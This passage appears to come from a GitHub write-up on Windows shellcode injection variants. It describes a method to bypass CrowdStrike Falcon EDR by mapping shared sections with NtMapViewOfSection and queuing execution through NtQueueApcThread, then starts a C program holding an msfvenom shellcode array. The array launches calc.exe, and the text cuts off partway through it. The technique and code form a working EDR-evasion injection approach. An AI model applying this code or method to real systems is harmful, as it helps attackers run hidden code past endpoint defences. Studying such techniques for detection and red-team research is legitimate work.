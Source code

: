 This can be applied to all the other functions that are to be concealed. This has been left as an exercise to the reader.


## 8 - redcursor.com.au bypassing crowdstrike endpoint detection and response

The last variation was a challenge of mine to see if I could code a proof of concept, only having the general gist of the functions involved. I came across a blogpost that described using specific unsupported/undocumented Windows functions to bypass CrowdStrike Falcon (https://www.redcursor.com.au/blog/bypassing-crowdstrike-endpoint-detection-and-response). The functions used were NtMapViewOfSection and NtQueueApcThread. By not writing memory in a remote process, it is possible in some cases to execute code on a host with an EDR installed. Not having used these functions, I had to give it a try. 

### NtMapViewOfSection

Windows treats a `Section` as a contiguous memory block that can be shared between processes. We will use `NtCreateSection` call to create a new section.
 
 To utilise a `Section`, we need to map it to a `View` using `NtMapViewOfSection`, and specify appropriate RWX permissions. 
 We will create a `View` that is local to the calling process and copying in the payload. This `View` should be writeable. We'll then create a second `View` within the remote process that is executable. Writing the payload into the local section, should cause it to appear within the `View` of the remote process. 

 From this point, we can carry on as normal and call CreateRemoteThread and pass in the address pointing to the beginning of the payload. However, in this scenario, we'll be calling NtQueueApcThread


### NtQueueApcThread

Each thread in userland processes has their own Asynchronous Procedure Call (APC) queue. It is possible to queue some code to be executed when the thread enters an alertable state. 

There are two main ways of programming this:
- Create a process in a suspended state, queue an APC and then resume it/alertable state
- Enumerate thread for given PID, and use one of these. Possibly use CreateToolhelp32Snapshot to enumerate.

In this case, because my aim is to be stealthy, we won't be creating a new remote thread, albeit in a suspended state. We'll assume we *magically* know the thread ID (can easily find this out via task manager) and pass this as a parameter to the program.


```
#include "Windows.h"
#include "stdio.h"
#include "8-shellcode-inject-variation-header.h"


#define CREATE_THREAD_ACCESS (PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION | PROCESS_VM_WRITE )
#ifndef NT_SUCCESS
#define NT_SUCCESS(Status) ((NTSTATUS)(Status) >= 0)
#endif

/*
msfvenom -p windows/exec CMD=calc.exe -f c
length: 519 bytes
*/
unsigned char payload[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
```